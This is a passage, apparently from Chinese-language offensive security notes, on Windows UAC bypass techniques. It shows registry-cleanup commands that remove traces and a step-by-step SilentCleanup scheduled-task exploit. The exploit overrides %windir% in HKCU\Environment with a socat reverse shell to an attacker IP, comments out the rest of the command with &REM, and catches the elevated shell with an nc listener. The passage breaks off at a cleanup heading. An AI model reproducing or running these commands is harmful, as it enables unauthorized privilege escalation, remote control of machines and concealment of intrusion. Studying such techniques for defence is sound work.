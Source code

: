         - **清理痕迹 (CurVer 方法)**:
            
            DOS
            
            ```
            reg delete "HKCU\Software\Classes\.thm" /f
            reg delete "HKCU\Software\Classes\ms-settings" /f
            ```
            

##### 5. 利用环境变量扩展与计划任务 (Environment Variable Expansion with Scheduled Tasks)

在 UAC 设置为最高级别“始终通知”时，像 `fodhelper.exe` 这样的自动提升程序也可能无法在不显示 UAC 提示的情况下提升权限。此时，可以尝试利用某些配置特殊的计划任务。

- 原理:
    
    一些内置的计划任务被配置为以调用用户的“最高可用权限 (highest available privileges)”运行，并且允许“按需运行 (run on demand)”。如果这些任务在执行命令时使用了可被用户级注册表覆盖的环境变量 (如 %windir%)，攻击者就有机会通过修改这些环境变量来注入并执行自己的命令。由于计划任务通常设计为无需用户交互即可运行（即使是需要提升权限的任务），它们会自动获取高 IL 令牌（如果调用者是管理员），而无需通过 UAC 提示。
    
- 利用磁盘清理 (Disk Cleanup) 计划任务:
    
    计划任务路径：\Microsoft\Windows\DiskCleanup\SilentCleanup
    
    1. **任务配置**:
        - 通常配置为使用当前登录用户账户运行。
        - 勾选了“使用最高权限运行 (Run with highest privileges)”选项。这意味着如果管理员调用此任务，它将以高 IL 令牌执行。如果普通非管理员用户调用，则仅以中等 IL 执行，绕过将无效。
        - 允许按需运行 (“Allow task to be run on demand”)。
    2. **执行的命令**: `%windir%\system32\cleanmgr.exe /autoclean /d %systemdrive%`
    3. **漏洞点**: 命令中的 `%windir%` 环境变量可以被用户通过在 `HKCU\Environment` 注册表项下创建同名值来覆盖。
    4. **注入与执行**:
        - 将 `HKCU\Environment` 中的 `windir` 值设置为恶意命令，例如： `cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4446 EXEC:cmd.exe,pipes &REM` 注意末尾的 `&REM` (REM 后有一个空格)，这是为了将原始命令中 `%windir%` 之后的部分（即 `\system32\cleanmgr.exe ...`）注释掉，防止其执行或产生语法错误。 最终在计划任务执行时，扩展后的命令将变成： `cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4446 EXEC:cmd.exe,pipes &REM \system32\cleanmgr.exe /autoclean /d %systemdrive%` `REM` 之后的所有内容都被视为注释而被忽略。
        - **示例命令**: 在攻击机上监听：
            
            Bash
            
            ```
            nc -lvnp 4446
            ```
            
            在目标机器的中等权限 Shell 中执行：
            
            DOS
            
            ```
            reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4446 EXEC:cmd.exe,pipes &REM " /f
            schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
            ```
            
            执行 `schtasks /run` 后，应能收到高权限的反向 Shell。
    5. **清理痕迹**:
        